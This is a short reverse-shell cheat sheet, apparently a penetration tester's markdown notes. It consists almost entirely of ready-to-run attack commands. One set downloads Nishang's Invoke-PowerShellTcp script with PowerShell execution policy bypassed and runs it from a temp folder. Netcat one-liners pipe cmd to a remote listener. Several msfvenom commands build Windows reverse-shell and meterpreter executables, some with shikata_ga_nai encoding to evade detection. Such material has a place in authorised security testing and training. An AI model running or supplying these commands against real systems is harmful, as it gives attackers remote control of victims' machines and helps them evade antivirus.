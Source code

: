 # Reverse Shells

### Nishang

[https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

Add line to ending:&#x20;

Invoke-PowerShellTcp -Reverse -IPAddress 192.168.1.1 -Port 80

```
cmd.exe /c powershell.exe -ep bypass Invoke-WebRequest -Uri 'http://192.168.1.1/Invoke-PowerShellTcp.ps1' -OutFile 'C:\Windows\Temp\s.ps1'

cmd.exe /c powershell.exe -ep bypass -File C:\Windows\Temp\s.ps1"
```

### Netcat

```
nc -e {shell} {LHOST} {LPORT}
nc.exe -e cmd 192.168.1.1 80
```

### MSFVENOM

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=80 -f exe -o shell.exe

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=80 -e x86/shikata_ga_nai -f exe -o shell.exe

msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.1 LPORT=80 -f exe -o shell.exe

msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.1 LPORT=80 -e x86/shikata_ga_nai -f exe -o shell.exe

msfvenom -p windows/meterpreter/reverse_tcp 192.168.1.1 80 -e x86/shikata_ga_nai -i 8 -f exe -o shell.exe

msfvenom -p windows/x64/meterpreter/reverse_tcp 192.168.1.1 80 -e x86/shikata_ga_nai -i 8 -f exe -o shell.exe
```

